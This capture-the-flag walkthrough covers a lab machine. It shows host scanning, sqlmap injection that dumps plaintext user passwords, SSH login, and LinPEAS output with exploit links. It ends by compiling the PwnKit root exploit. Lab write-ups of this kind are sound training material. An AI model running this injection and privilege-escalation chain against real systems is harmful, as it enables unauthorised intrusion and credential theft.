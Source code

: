 I scan my network with:
````
sudo arp-scan -I eth1 -l
````
And the we run a nmap:
  ````
sudo nmap -sT <ip>
````
the results:
````
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

````
I also got this: /mercuryfacts/1/ by navigating into the website.
It looks like a query for facts to mercury. I ran sqlmap to check this:

````
sqlmap -u http://IP:8080/mercuryfacts/1 --dbs 
````
from this I got
````
[INFO] fetching database names
available databases [2]:
[*] information_schema
[*] mercury

````

Then I checked for the tables inside mercury DB

````
sqlmap -u http://IP/mercuryfacts/1 -D mercury --tables  
````
````
Database: mercury
[2 tables]
+-------+
| facts |
| users |
+-------+
````
And by dumping the content of the table users I got:
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --columns
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int         |
| password | varchar(50) |
| username | varchar(50) |
+----------+-------------+


````
````
sqlmap -u http://10.0.3.244:8080/mercuryfacts/1 -D mercury -T users --dump   
````
````
[4 entries]
+----+-------------------------------+-----------+
| id | password                      | username  |
+----+-------------------------------+-----------+
| 1  | johnny1987                    | john      |
| 2  | lovemykids111                 | laura     |
| 3  | lovemybeer111                 | sam       |
| 4  | mercuryisthesizeof0.056Earths | webmaster |
+----+-------------------------------+-----------+
````
With this information I got access throught the webmaster username via SSH. Inside is the userflag.

From here I check the linux kernel version and vulnerabilities that might be vulnerable to; This with the help of LinPEAS:

````

Linux version 5.4.0-45-generic

[+] [CVE-2022-2586] nft_object UAF                                                                        

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: probable
   Tags: [ ubuntu=(20.04) ]{kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: mint=19,[ ubuntu=18|20 ], debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2017-5618] setuid screen v4.5.0 LPE

   Details: https://seclists.org/oss-sec/2017/q1/184
   Exposure: less probable
   Download URL: https://www.exploit-db.com/download/https://www.exploit-db.com/exploits/41154
````

I decided to use Pwnkit, I cloned the repo https://github.com/ly4k/PwnKit and send the .c file with scp,
````
scp ./PwnKit.c webmaster@10.0.3.244:/home/webmaster
````
With the .c file on the machine, I proceded to compile the file.

````
 gcc -shared PwnKit.c -o Pwnkit -Wl,-e,entry -fPIC
````
From here I have a root access and just run a find to locate the root flag:
````
find / -name "*flag.txt" ````
